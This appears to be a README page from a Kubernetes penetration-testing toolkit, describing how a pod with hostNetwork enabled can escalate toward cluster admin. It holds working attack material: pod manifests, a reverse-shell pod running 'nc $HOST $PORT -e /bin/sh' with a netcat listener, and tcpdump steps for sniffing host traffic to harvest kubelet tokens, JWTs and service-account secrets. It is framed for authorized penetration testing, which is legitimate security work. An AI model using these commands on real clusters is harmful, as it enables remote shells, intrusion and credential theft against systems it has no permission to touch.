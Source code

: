 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: hostnetwork
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostnetwork
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-hostnetwork-only.yaml](pod-hostnetwork-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork-only/pod-hostnetwork-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: hostnetwork-revshell
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    imagePullPolicy: IfNotPresent
    name: hostnetwork-revshell
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
```
[pod-hostnetwork-only-revshell.yaml](pod-hostnetwork-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork-only/pod-hostnetwork-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 
```bash
# Install tcpdump and sniff traffic 
# Note: If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes tcpdump, like https://hub.docker.com/r/corfr/tcpdump

apt update && apt install tcpdump 

# You now have a few options for next steps: 

# See if kubelet read only port (10255/tcp) is open on the nodes IP or the docker host IP

nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!

# If the read only port is open, run tcpdump recording the output to a file for a few minutes

#######################
#Warning: Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
#Warning: Always run tcpdump with the -n flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 
#########################
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255

#Stop it, and read the file with tcpdump and use the -A flag to only show the printable characters

tcpdump -ro kubelet-ro.cap -s0 -A

#Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in kube-system.


# Another option entirely: investigate local services
curl https://localhost:1234/metrics
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.
